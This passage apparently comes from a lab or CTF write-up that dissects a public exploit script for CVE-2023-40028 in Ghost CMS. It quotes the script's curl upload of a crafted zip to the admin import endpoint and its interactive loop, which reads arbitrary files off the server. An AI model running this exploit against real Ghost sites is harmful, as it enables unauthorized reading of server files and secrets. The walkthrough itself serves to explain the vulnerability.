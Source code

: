 It’s generating a zip and saving it to the filesystem, similar to what I showed above. There’s another function, `send_exploit`, that will post the exploit:

```

function send_exploit()
{
  RES=$(curl -s -b cookie.txt \
  -H "Accept: text/plain, */*; q=0.01" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate, br" \
  -H "X-Ghost-Version: 5.58" \
  -H "App-Pragma: no-cache" \
  -H "X-Requested-With: XMLHttpRequest" \
  -H "Content-Type: multipart/form-data" \
  -X POST \
  -H "Origin: $GHOST_URL" \
  -H "Referer: $GHOST_URL/ghost/" \
  -F "importfile=@`dirname $PAYLOAD_PATH`/$PAYLOAD_ZIP_NAME;type=application/zip" \
  -H "form-data; name=\"importfile\"; filename=\"$PAYLOAD_ZIP_NAME\"" \
  -H "Content-Type: application/zip" \
  -J \
  "$GHOST_URL/ghost/api/v3/admin/db")
  if [ $? -ne 0 ];then
    echo "[!] FAILED TO SEND THE EXPLOIT"
    clean
    exit
  fi
}

```

It’s providing way more headers than are necessary.

The main body of the script is an infinite loop that takes in a file path, passes that to `generate_exploit`, then calls `send_exploit`, and then requests the same file to get the results. Finally, it calls `clean` (which deletes the files generated).

```

echo "WELCOME TO THE CVE-2023-40028 SHELL"
while true; do
  read -p "file> " INPUT
  if [[ $INPUT == "exit" ]]; then
    echo "Bye Bye !"
    break
  fi
  if [[ $INPUT =~ \  ]]; then
    echo "PLEASE ENTER FULL FILE PATH WITHOUT SPACE"
    continue
  fi
  if [ -z $INPUT  ]; then
    echo "VALUE REQUIRED"
    continue
  fi
  generate_exploit $INPUT
  send_exploit
  curl -b cookie.txt -s $GHOST_URL/content/images/2024/$IMAGE_NAME.png
  clean
done

rm cookie.txt

```

